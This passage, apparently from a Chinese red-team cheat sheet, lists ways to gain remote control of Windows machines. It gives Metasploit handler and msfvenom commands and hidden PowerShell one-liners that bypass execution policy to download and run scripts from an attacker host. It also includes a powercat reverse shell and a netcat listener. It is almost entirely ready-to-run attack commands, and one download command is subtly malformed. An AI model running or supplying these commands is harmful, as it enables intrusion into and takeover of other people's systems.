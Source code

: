 MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

执行上线。

```plaintext
powershell -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.ps1');attack.ps1"
```

2.[powercat](https://github.com/besimorhino/powercat) 上线。

此工具实现了 Netcat 功能。

\-c 反连服务器地址，-p 反连服务器端口，-e 反弹 cmd。

```plaintext
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/powercat.ps1');powercat -c <Host> -p <Port> -e cmd"
```

服务端只需等待 Shell 反弹回来即可。

```plaintext
nc -lvp <Port>
```

3.msf web\_delivery 上线。

target 2 PSH 是 PowerShell 简写，用于生成 PowerShell 脚本。

```plaintext
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
exploit -j
```

执行 msf 提供的脚本即可。

4.PowerShell 运行 cscript 程序去执行 vbs 脚本上线

生成 vbs 脚本。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f vbs -o attack.vbs
```

MSF 监听。

```plaintext
msf6> handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

下载脚本到 $env:temp，sccript 执行 attack.vbs 上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.vbs',\"$env:temp\attack.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\attack.vbs\""
```
